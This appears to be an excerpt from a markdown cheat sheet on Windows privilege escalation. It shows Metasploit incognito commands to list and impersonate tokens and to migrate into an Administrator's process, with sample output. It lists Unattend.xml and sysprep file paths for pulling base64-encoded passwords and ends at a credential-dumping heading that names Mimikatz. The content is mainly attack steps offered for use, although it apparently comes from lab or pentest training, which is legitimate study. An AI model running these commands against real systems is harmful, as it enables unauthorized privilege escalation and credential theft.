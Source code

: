 ### Impersonate Tokens

**Metasploit - incognito**

```sh
load incognito
list_tokens -u
```

```sh
 Delegation Tokens Available
 ========================================
 ATTACKDEFENSE\Administrator
 NT AUTHORITY\LOCAL SERVICE
 
 Impersonation Tokens Available
 ========================================
 No tokens available
```

```sh
impersonate_token <token_name>
# E.g. impersonate_token ANYTHING\\Administrator 
# Note: the two backslashes
```

```sh
# You may need to migrate process to a <user> process
getpid
ps     
# PID: 2948 | PPID: 2036 NAME: explorer.exe | ARCH: X64 | SESSION:1 | USER: ANYTHING\Administrator | PATH: C:\Windows\explorer.exe

# Migrate process
migrate 2948
```

### Password in configuration file (Unattend.xml)

An answer file is an XML-based file that contains setting definitions and values to use during Windows Setup. Answer files (or Unattend files) are used by Administrators when they are setting up fresh images as it allows for an automated setup for Windows systems.

```sh
C:\unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.xml
C:\Windows\system32\sysprep\sysprep.xml
```

Extract password and decode it (from base64)

### Credential Dumping (Mimikatz - Kiwi - Hashdump)

Prerequisites: User must be a member a local Administrators.
